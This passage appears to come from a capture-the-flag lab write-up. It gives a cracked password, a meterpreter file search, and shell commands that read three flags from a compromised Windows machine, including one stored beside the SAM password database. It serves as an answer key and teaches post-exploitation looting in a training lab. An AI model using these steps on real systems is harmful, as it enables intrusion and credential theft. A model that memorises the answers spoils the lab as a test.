 `alqfna22`

### • Copy this password hash to a file and research how to crack it. What is the cracked password?

> alqfna22

## Task 5 Find flags!

```
meterpreter > search -f flag*.txt
Found 3 results...
==================

Path                                  Size (bytes)  Modified (UTC)
----                                  ------------  --------------
c:\Users\Jon\Documents\flag3.txt      37            2019-03-18 02:26:36 +0700
c:\Windows\System32\config\flag2.txt  34            2019-03-18 02:32:48 +0700
c:\flag1.txt                          24            2019-03-18 02:27:21 +0700
```

### • Flag1? This flag can be found at the system root.

> flag{access_the_machine}

```
C:\Windows\system32>type c:\flag1.txt
type c:\flag1.txt
flag{access_the_machine}
```

### • Flag2? This flag can be found at the location where passwords are stored within Windows.

### \*Errata: Windows really doesn't like the location of this flag and can occasionally delete it. It may be necessary in some cases to terminate/restart the machine and rerun the exploit to find this flag. This relatively rare, however, it can happen.

> flag{sam_database_elevated_access}

```
C:\Windows\system32>type c:\Windows\System32\config\flag2.txt
type c:\Windows\System32\config\flag2.txt
flag{sam_database_elevated_access}
```

### • flag3? This flag can be found in an excellent location to loot. After all, Administrators usually have pretty interesting things saved.

> flag{admin_documents_can_be_valuable}

```
C:\Windows\system32>type c:\Users\Jon\Documents\flag3.txt
type c:\Users\Jon\Documents\flag3.txt
flag{admin_documents_can_be_valuable}
```
